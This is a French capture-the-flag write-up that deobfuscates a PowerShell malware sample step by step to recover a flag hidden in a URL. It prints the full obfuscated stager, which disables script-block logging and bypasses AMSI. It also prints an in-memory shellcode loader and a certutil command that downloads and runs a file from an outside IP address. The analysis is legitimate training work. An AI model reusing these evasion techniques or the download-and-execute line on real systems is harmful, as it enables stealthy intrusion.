

Ce challenge nous demande d'étudier un maliciel. On télécharge donc le fichier et on regarde quel genre de fichier c'est:


Apparemment c'est une archive de type Uharc. Après quelques recherches, je comprend que c'est un ancien type d'archive windows. Je lance donc une machine virtuelle windows7 et télécharge un logiciel me permetant de lire ce type d'archive:




après désarchivage, on obtient ce script powershell qui est obfusqué :

```
C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir   +'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

après inspection, on voit que le script désarchive un fichier gzip caché en base64:


On utilise powershell pour désoffusquer le code encodé en base64 et on obtient :

```
H4sIAIeJG2UC/+1XbU/jOBD+3l9hrSIlkULVFvbEIiFdWqDbPRJKS8vRbrUKyTR168TFcQplb//7jfNSygJ73ElI94FIVvwyMx4/M7YfT9PYl5THhH7sku8VUnxdT3gRMTT/ku/fWUSjS3MzpoX7zCWHxBjby+URjzwaTw4OWqkQEMu8XW2DtJMEomtGITFM8he5nIGAnbPrOfiSfCfat2qb8WuPFWLrlufPgOzYcaDGTrnvKbeq/SWj0tC/ftXN8U59Uj2+ST2WGHp/nUiIqgFjukl+mGrCi/USDN2hvuAJn8rqJY13G9VBnHhTcNHaChyQMx4kulnZLEaATEWcr0kZyUUMHatdwX07CAQkiW6RsTI/nkx+N8bF3L00ljSCaieWIPiyD2JFfUiqn704YNCD6QS1+lLQOJyYJoqt+AIMLU4Zs8i/MWO4cFsi91olY1sJpbpSmBYG9Jl1OjxIGeSa+jOO5klg4pcngln5UalMy7yJvPq3o6eZs2mX3zgbAHTX6PKEZrqHpGYRByf2JBdrbGoXIgVzsgGbaNGe/Yf1SmP1UhP1Vu0Ue8ZDToPJRn0r7tr0pj38qEReTuIjmNIYjtaxF1G/zFPjuWjAlEEGR7UUc9E9Qy8GIDgCBqEnFb4qKZ6oHUdUbnSbKWUBCNvHiCboFQbbfOxMHjJD78QORAhd3sYs1aa4O6CULnbEupxdtVFIbzEvSSzSTXF7+hbpg8cgsIgdJ7QYslPJs6r+4K6TMkl9L5GluYn5E5zFtC0eJ1KkPgYVIbjoL8GnHlOIWOQzDaC57tOwnF5/Fo+WxxjuG7S0wnhgj8KhL1WqCPQ0Swuz2gfZiZYMIpTJjosT5oV4OBS7I8stL4RAf8HRchPkGa+QKSHZchPD3WdcWmRIhcTDR6GM2fVfnHhy6uTOtAQUwTGyvTVurqXKfi0+PW8sVI4WAGVwCIlQnAgeNb0EftvLDxjjQ6dlh+/lvbyX9/K/L22X+XGvHrRZ0mnV6350N7+6dPmob8sRbfLgc+/2jO6vTufHt856786dO6lzEe5ie302D2/PjuxVtzFMrxqfFqPL3nQU3c1G9zXmzq+YGzn4P8biM7fRwf85lk4+Nh8w536Q1Z17P6vn7WP8h1gW2R/n+0m2g8UuZMLM3kN7UYyHhT17M5+aw22ch1+GvZOLoc3+bF+FX2jzPmifrIOWvTqnNhseD91Ba+iPwsPDD2ZlPKCx3G1M1EW+qwhSRWP+p/2tS+Al6ud4Ipl5DC8H5HTlFX3CxUnB1LqcKg3DUEx/ASIGhvQYCXR5sdmMcV+RxJzSIUPNeaOisYNO5tVzNZNsBM0H9lh2HRyM0Eu8LLO7rHoKcShnVu1ut1ZD7le7q+3htfj6pbX4cm3ktixFHjNwNtZZZt2s0CkxjDfHC98HEunKLxB7CTyce4H0AvlOfukrCJucs20Ai5Vt8uERfghcHVc/Vq+DLFPQxA7cEE0q/rzFxrX0+uz6TZOnIC8z/AX/mDwPfb8YfVVC1awcoCfdjzseiN/bIXDpUYmCfaRhDPKHwQtAFBtmK8gqPLgbpsWnHspnqdxx8emlmODf2GZMc54PAAA=
```

Qui une fois décodé et dézipé grace à cyberchef nous donne un code:


```
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGNlcnR1dGlsIC11cmxjYWNoZSAtZiBodHRwOi8vLjEwMy4xNjMuMTg3LjEyOjgwODAvP2VuY29kZWRfZmxhZz0lNjYlNmMlNjElNjclN2IlNjQlNjIlNjYlNjUlMzUlNjYlMzclMzUlMzUlNjElMzglMzklMzglNjMlNjUlMzUlNjYlMzIlMzAlMzglMzglNjIlMzAlMzglMzklMzIlMzglMzUlMzAlNjIlNjYlMzclN2QgJVRFTVAlXGYgJiBzdGFydCAvQiAlVEVNUCVcZg==")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

dans lequel on trouve à nouveau du base64. Après décodage quelquechose de très intéressant:

```
certutil -urlcache -f http://.103.163.187.12:8080/?encoded_flag=%66%6c%61%67%7b%64%62%66%65%35%66%37%35%35%61%38%39%38%63%65%35%66%32%30%38%38%62%30%38%39%32%38%35%30%62%66%37%7d %TEMP%\f & start /B %TEMP%\f
```

le flag est encodé dans une url et est facilement récupérable. Il est le suivant: 


**flag{dbfe5f755a898ce5f2088b0892850bf7}**

